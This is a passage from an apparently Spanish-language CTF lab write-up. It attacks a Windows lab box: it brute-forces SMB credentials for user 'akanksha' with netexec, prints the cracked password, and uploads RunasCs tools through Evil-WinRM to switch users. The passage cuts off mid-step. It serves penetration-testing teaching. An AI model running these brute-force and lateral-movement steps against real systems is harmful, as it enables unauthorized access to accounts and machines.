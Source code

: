 Vemos que hay otro usuario llamado `akanksha` por lo que tiene pinta de que tendremos que intentar escalar a dicho usuario, ya que si vemos los privilegios que tenemos no veremos gran cosa.

Vamos a probar a realizar fuerza bruta desde el `SMB` con el usuario `akanksha` y ver si nos encuentra algo, ya que si nos encuentra alguna credencial puede ser que sea la misma que la del propio sistema operativo.

### NetExec akanksha

```shell
netexec smb <IP> -u akanksha -p <WORDLIST> --ignore-pw-decoding
```

Info:

```
SMB   192.168.1.154   445    WIN-IURF14RBVGV  [+] WIN-IURF14RBVGV\akanksha:sweetgirl
```

Vemos que nos ha descubierto las credenciales de forma correcta, por lo que ahora vamos a probar a utilizarlas con dicho usuario desde el `PowerShell` de `nica`.

Como nosotros no tenemos una interfaz grafica, no podremos utilizar un simple comando de `runas` para que se nos habra una `PowerShell` autenticado como el usuario, por lo que tendremos que utilizar un ejecutable de `GitHub` que te autentica con el usuario en la misma terminal:

URL = [RunasCs.exe Download](https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip)

Una vez descargado en nuestro `host` tendremos que pasarnoslo a la maquina victima, ya que estamos en una sesion con `Evil-WinRM` podremos realizar la subida del archivo de forma facil:

```powershell
upload /home/kali/Desktop/RunasCs.exe
```

Info:

```
Info: Uploading /home/kali/Desktop/RunasCs.exe to C:\Users\nica\Desktop\RunasCs.exe
                                        
Data: 68948 bytes of 68948 bytes copied
                                        
Info: Upload successful!
```

Con esto ya tendremos el archivo subido de forma correcta, pero si diera algun error como me esta pasando a mi, podremos hacerlo de otra forma mediante el archivo `.ps1` directamente:

URL = [Invoke-RunasCs.ps1 Download](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)

Vamos a pasarnoslo a la maquina victima de la misma forma que hicimos con el `.exe`:

```powershell
upload /home/kali/Desktop/Invoke-RunasCs.ps1
```

Info:
